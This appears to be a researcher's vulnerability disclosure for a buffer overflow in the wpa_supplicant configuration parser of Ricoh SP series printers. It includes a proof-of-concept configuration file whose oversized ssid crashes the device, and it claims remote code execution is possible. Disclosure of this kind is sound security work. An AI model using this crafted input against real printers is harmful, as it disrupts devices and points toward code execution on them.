





# Ricoh Printer SP Series Vulnerability

This vulnerability lies in the `wpa_supplicant_conf_parser` function which influences the **most lastest version** of **Ricoh Printer SP Series**. Infected products are listed below:

- SP 320DN
- SP 325DNw
- SP 320SN
- SP 320SFN
- SP 325SNw
- SP 325SFNw
- SP 330SN
- Aficio SP 3500SF
- SP 221S
- SP 220SNw
- SP 221SNw
- SP 221SF
- SP 220SFNw
- SP 221SFNw

## Vulnerability description

In function `wpa_supplicant_conf_parser`, the program opens the file named `/etc/wpa_supplicant.conf` and reads in the content of the file using the function `os_file_get`. Each line of the configuration file is stored in a variable named `content`. Then the value of `content` is tranferred into variable `source`, as shown below.



Later in this function, the program use `net_SyncNvram` to write value `v26` into the NVRAM. `v26` can be controlled by variable `source`. `net_SyncNvram` writes the string onto a fixed address: 0xDC4E6D. 





In a function call trace 0xF08F0 -> 0x187894, the program reads from the address 0xDC4E6D. So there is a buffer overflow when the variable `v70` is written.





So by controling the content of the configuration file, the attacker can easily perform a **Deny of Service(DoS) Attack** or **Remote Code Execution(RCE)** with carefully crafted overflow data.

## POC

Any valid configuration file whose `ssid` is longer than 0x90(size of buffer) can cause a DoS on this device. Example Configuration file `/etc/wpa_supplicant.conf` is listed below.

```python
# allow frontend (e.g., wpa_cli) to be used by all users in 'wheel' group
ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=wheel
#
# home network; allow all valid ciphers
network={
	ssid="hoooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooome"
	scan_ssid=1
	key_mgmt=WPA-PSK
	psk="very secret passphrase"
}
#
# work network; use EAP-TLS with WPA; allow only CCMP and TKIP ciphers
network={
	ssid="work"
	scan_ssid=1
	key_mgmt=WPA-EAP
	pairwise=CCMP TKIP
	group=CCMP TKIP
	eap=TLS
	identity="user@example.com"
	ca_cert="/etc/cert/ca.pem"
	client_cert="/etc/cert/user.pem"
	private_key="/etc/cert/user.prv"
	private_key_passwd="password"
}
```

## Timeline

- 2021-06-04 report to CVE & CNVD
- 2021-06-17 CNVD ID assigned: CNVD-2021-42365
- 
## Acknowledgment

Credit to [@Ainevsia](https://github.com/Ainevsia), [@peanuts](https://github.com/peanuts62) and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.	
